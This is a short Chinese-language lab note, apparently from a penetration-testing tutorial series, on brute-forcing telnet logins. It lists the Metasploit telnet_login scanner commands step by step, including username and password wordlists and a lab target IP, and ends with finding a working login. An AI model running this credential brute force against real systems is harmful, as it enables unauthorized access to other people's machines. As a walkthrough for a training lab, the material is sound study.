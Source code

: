 # 23_telnet

使用msf的telnet_login脚本爆破

> search telnet_login

选择脚本

> use auxiliary/scanner/telnet/telnet_login

查看选项

> options

选择用户名字典

> set user_file /root/username1.txt

选择密码字典

> set pass_file /root/password.txt

选择靶机ip

> set rhosts 10.10.10.6

![image-20210319213001147](../../image/meteaspolitale2/image-20210319213001147.png)

执行

> exploit

![image-20210319212952935](../../image/meteaspolitale2/image-20210319212952935.png)

得到可登录的用户名和密码

